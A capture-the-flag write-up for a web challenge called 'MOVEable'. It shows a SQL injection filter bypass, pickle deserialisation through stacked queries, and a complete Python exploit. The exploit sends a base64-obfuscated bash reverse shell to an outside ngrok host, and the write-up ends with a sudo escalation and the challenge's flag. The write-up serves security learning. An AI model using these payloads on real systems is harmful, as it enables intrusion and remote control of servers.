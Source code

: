# MOVEable

![image](https://github.com/user-attachments/assets/ce4e478b-57f1-4eed-b612-2d9d3041c9b3)

Download: [app.zip]((https://raw.githubusercontent.com/LazyTitan33/CTF-Writeups/refs/heads/main/Huntress-CTF-2024/challenge-files/app.zip)

## My Solution

For this web challenge, we just have a login screen:  

![image](https://github.com/user-attachments/assets/d45669b2-9c38-4e8b-bc3c-e9abf5925bfb)

There is some sanitization in the form of the `DBClean` function.

```python
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```

However, we can easily bypass this by using `/**/` instead of space and the single quote can be bypassed by escaping it with a backslash.

The `login` function uses [executescript](https://docs.python.org/3/library/sqlite3.html#sqlite3.Connection.executescript) for the login where we have SQL injection instead of using just "execute". This allows us to execute multiple SQL statements.

```python
@app.route('/login', methods=['POST'])
def login_user():
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)
    user = c.fetchone()
    print(user)
    if user:
        c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))
        active_session = c.fetchone()
        if active_session:
            session_id = active_session[0]
        else:
            c.execute(f"SELECT username FROM users WHERE username=?", (username,))
            user_name = c.fetchone()
            if user_name:
                session_id = str(uuid.uuid4())
                c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")
            else:
                flash("A session could be not be created")
                return logout()
        
        session['username'] = username
        session['session_id'] = session_id
        conn.commit()
        return redirect(url_for('files'))
    else:
        flash('Username or password is incorrect')
        return redirect(url_for('home'))
```

The upload endpoint is nerfed:  

```python
@app.route('/upload', methods=['POST'])
@login_required
def upload_file():
    flash('Sorry, the administrator has temporarily disabled file upload capability.')
    return redirect(url_for('files'))
```

But we don't need it because the `download` endpoint doesn't require authentication and it pickle loads the filedata which we could insert into using the SQL injection. We also need to insert an active session for the code to follow the correct logic.

```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))

    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```

With the script below we create the pickle data that would execute our payload when it gets loaded and give us a reverse shell.

```python
import base64
import pickle
import os
import requests

class serial():
    def __reduce__(self):               
        return os.system, ('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNTA2NSAwPiYx|base64 -d|bash',)

code = pickle.dumps(serial())
code = base64.b64encode(code)
revshell = code.decode()

url = 'http://challenge.ctf.games:32766/login'
header = {'Content-Type':'application/x-www-form-urlencoded'}
data = '''username=s&password=\\';INSERT/**/INTO/**/activesessions/**/VALUES(\\'lazytitan\\',\\'lazytitan\\',\\'time\\');INSERT/**/INTO/**/files/**/VALUES(\\'payload\\',\\'%s\\',NULL);--";''' % revshell
requests.post(url, data=data, headers=header)

url2 = 'http://challenge.ctf.games:32766/download/payload/lazytitan'
requests.get(url2)
```

Once we have a foothold, we check our sudo permissions and see we can execute all commands as root without requiring authentication so we sudo bash to root and get the flag:  

![image](https://github.com/user-attachments/assets/16defa32-0711-41bd-94d6-167e42be516e)

`flag{ac53cd7aa8a2d1b2340a6eb4a356709e}`
